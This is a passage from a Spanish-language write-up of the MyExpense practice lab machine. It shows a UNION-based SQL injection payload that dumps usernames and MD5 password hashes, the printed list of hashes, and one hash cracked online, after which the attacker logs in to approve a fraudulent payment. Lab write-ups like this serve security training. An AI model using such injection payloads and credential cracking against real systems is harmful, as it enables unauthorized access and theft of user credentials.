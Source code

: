 Listamos los usuarios con sus contraseñas:

```sql
?id=2 union select 1,group_concat(username,0x3a,password) from user-- -
```
> 0x3a es la representación del carácter (:). Esto lo hacemos para que no nos de problema con el url-encode y nos muestre los datos en formato username:pasword

![](/image/vh-writeup-myexpense/passwordsSQLI.png)

Por lo tanto tenemos las contraseñas de todos los usuarios:

```
afoulon:124922b5d61dd31177ec83719ef8110a
pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
```

A nosotros nos interesa:
```
pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a
```

Si metemos esta contraseña encriptada en [CrackStation](https://crackstation.net/), nos dará como resultado ```HackMe```.

![](/image/vh-writeup-myexpense/crackStation.png)

Ahora que sabemos cual es la contraseña de la persona que nos tiene que tramitar el pago, volvemos a la página web, nos logueamos con sus credenciales y aceptamos el pago.

Con esto, el objetivo de la máquina fue completado y por lo tanto la hemos terminado. De todas formas si quieres ver una flag puedes volver a loguearte como slamotte y te aparecerá una notificación con un mensaje de enhorabuena.



